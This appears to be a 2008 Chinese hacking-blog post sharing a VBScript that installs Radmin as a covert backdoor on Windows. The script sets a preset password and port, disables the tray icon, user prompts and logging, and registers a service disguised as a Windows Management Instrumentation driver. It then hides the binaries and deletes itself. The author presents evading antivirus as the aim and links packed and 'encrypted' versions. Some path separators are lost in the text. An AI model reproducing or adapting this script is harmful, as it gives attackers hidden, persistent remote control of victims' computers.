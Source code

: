 ```yaml
---
title: Vbs脚本实现radmin终极后门
description: 作者：孤狐浪子来源：红狼在网上看到N多人做radmin 后门，要导出注册表而且还用被杀软件K杀。所以本人把自己写的脚本提供大家分享。比较实用，希望大家喜欢。onerrorresumenextconstHKEY_LOCAL_MACHINE=&H80000002strComputer="."...........................................................................
date: 2008-02-25 10:00:29
category: 技术文章
tags: ['脚本Script', '后门']
post_id: 382
alias: VBS-radmin-backdoor
ViewNums: 4921
---
```


作者：孤狐浪子
来源：红狼

在网上看到N多人做 [radmin](/blog/radmin-31-server-crack-nosetup) [后门](/tags/%E5%90%8E%E9%97%A8)，要导出注册表而且还用被杀[软件](/tags/%E8%BD%AF%E4%BB%B6)K杀。所以本人把自己写的[脚本](/tags/%E8%84%9A%E6%9C%ACScript)提供大家分享。比较实用，希望大家喜欢。

on error resume next
const HKEY_LOCAL_MACHINE = &H80000002
strComputer = "."
Set StdOut = WScript.StdOut
Set oReg=GetObject("winmgmts:{impersonationLevel=impersonate}!\" &_
strComputer & "
ootdefault:StdRegProv")
strKeyPath = "SYSTEMRAdmin"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
strKeyPath = "SYSTEMRAdminv2.0"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
strKeyPath = "SYSTEMRAdminv2.0Server"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
strKeyPath = "SYSTEMRAdminv2.0Serveriplist"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
strKeyPath = "SYSTEMRAdminv2.0ServerParameters"
oReg.CreateKey HKEY_LOCAL_MACHINE,strKeyPath
Set objRegistry = GetObject("Winmgmts:rootdefault:StdRegProv")
strPath = "SYSTEMRAdminv2.0ServerParameters"
uBinary = Array(0,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"AskUser",uBinary)
uBinary = Array(0,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"AutoAllow",uBinary)
uBinary = Array(1,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"DisableTrayIcon",uBinary)
uBinary = Array(0,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"EnableEventLog",uBinary)
uBinary = Array(0,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"EnableLogFile",uBinary)
uBinary = Array(0,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"FilterIp",uBinary)
uBinary = Array(0,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"NTAuthEnabled",uBinary)
uBinary = Array(198,195,162,215,37,223,10,224,99,83,126,32,212,173,208,119) //此为注册表导出十六进制转为十进制数据 pass:241241241
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"Parameter",uBinary) //Radmin密码
uBinary = Array(5,4,0,0) //端口：1029
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"Port",uBinary)
uBinary = Array(10,0,0,0)
Return = objRegistry.SetBinaryValue(HKEY_LOCAL_MACHINE,strPath,"Timeout",uBinary)
Set oReg=GetObject("winmgmts:{impersonationLevel=impersonate}!\" &strComputer &"
ootdefault:StdRegProv")
strKeyPath = "SYSTEMRAdminv2.0ServerParameters"
strValueName = "LogFilePath"
strValue = "c:logfile.txt"
set wshshell=createobject ("wscript.shell")
a=wshshell.run ("sc.exe create WinManageHelp binpath= %systemroot%system32Exporer.exe start= auto",0)
oReg.SetStringValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,strValue
Set oReg=GetObject("winmgmts:{impersonationLevel=impersonate}!\" &strComputer &"
ootdefault:StdRegProv")
strKeyPath = "SYSTEMControlSet001ServicesWinManageHelp"
strValueName = "Description"
strValue = "Windows Media PlayerWindows Management Instrumentation Player Drivers."
oReg.SetStringValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,strValue
strValueName = "DisplayName"
strValue = "Windows Management Instrumentation Player Drivers"
oReg.SetStringValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,strValue
strValueName = "ImagePath"
strValue = "c:windowssystem32Exporer.exe /service"
oReg.SetExpandedStringValue HKEY_LOCAL_MACHINE,strKeyPath,strValueName,strValue
set wshshell=createobject ("wscript.shell")
a=wshshell.run ("net start WinManageHelp",0)
b=wshshell.run ("attrib +r +h +s %systemroot%system32exporer.exe",0)
c=wshshell.run ("attrib +r +h +s %systemroot%system32AdmDll.dll",0)
d=wshshell.run ("attrib +r +h +s %systemroot%system32
addrv.dll",0)
CreateObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptName) //自删除

附件：
[RAdmin.rar](http://201314.free.fr/attachments/200801/RAdmin.rar "http://201314.free.fr/attachments/200801/RAdmin.rar") (1014 Bytes)
[Radmin VBS加密版.rar](http://201314.free.fr/attachments/200801/Radmin%20VBS%EF%BF%BD%EF%BF%BD%EF%BF%BD%DC%B0%EF%BF%BD.rar "http://201314.free.fr/attachments/200801/Radmin%20VBS%BC%D3%C3%DC%B0%E6.rar") (1.4 KB)

